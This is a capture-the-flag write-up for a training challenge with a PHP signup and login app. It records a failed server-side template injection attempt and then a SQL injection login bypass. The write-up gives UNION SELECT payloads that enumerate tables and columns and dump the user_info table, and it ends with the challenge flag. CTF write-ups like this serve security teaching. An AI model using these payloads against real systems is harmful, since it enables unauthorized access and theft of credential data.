## Writeup: low-effort sns (BKSEC training 2026)
---

## Overview
A blackbox challenge.
Web provides a simple interface with an account-register page and a login page.




## Functionality analysis
I'll create a valid account and login. Let the traffic go through Burp Suite

- `/signup.php`: Show a register page



- `/signup-check.php`: server checks if the username already exists in its database. If no returns error, prompt user to register other name. If yes, redirect to `/signup.php` with successfully prompt





- `/login.php`: shows a form to fill in username and password

- `/login-check.php`: server verifies the credentials and redirect to `/home.php` if match



- `/home.php`: show the dashboard with display name which was registered earlier



## Vulnerability analysis

- **Vul 1**: since the server render `home.php` with `display name`, Server-side Template Injection (SSTI) can occur here if server does have protection measures.

However, after trying two payloads to exploit, it doesn't work. And according to SSTI payload all the thing, SSTI is not presented here.







- **Vul 2**: SQL injection to bypass login.

I try injecting quotes and comment and server logs me in, also set a the **PHPSESSID**


That means server contatenates user-controlled input directly to the SQL query without or weak filter. 

## Exploit

Recon to figure out how many columns the query need with:

- `' UNION SELECT 'a'-- -`



Finally, 4 works:
- `' UNION SELECT 'a','b','c','d'-- -`

The dashboard shows that the display name is taken from the second column. We will attack that column.

Find all the tables in the same table_scheme:
- `' UNION SELECT 'asdf',GROUP_CONCAT(table_name),'asdf','asdf' FROM information_schema.tables WHERE table_schema = database()-- -`



Find the columns' name of `user_info`:
- `' UNION SELECT 'asdf',GROUP_CONCAT(column_name),'asdf','asdf' FROM information_schema.columns WHERE table_schema=database() AND table_name = 'user_info'-- -`



Because there is only one table containing user credentials, the flag should be in the same table with special value.

I try id = 1 and boom
- `' UNION SELECT * FROM user_info WHERE id='1' -- -`



> Flag: ***BKSEC{c0nv3n13nc3_1nv3rs3_pr0p0rt10n4l_t0_s3cur1ty_huh_b7e4c1}***

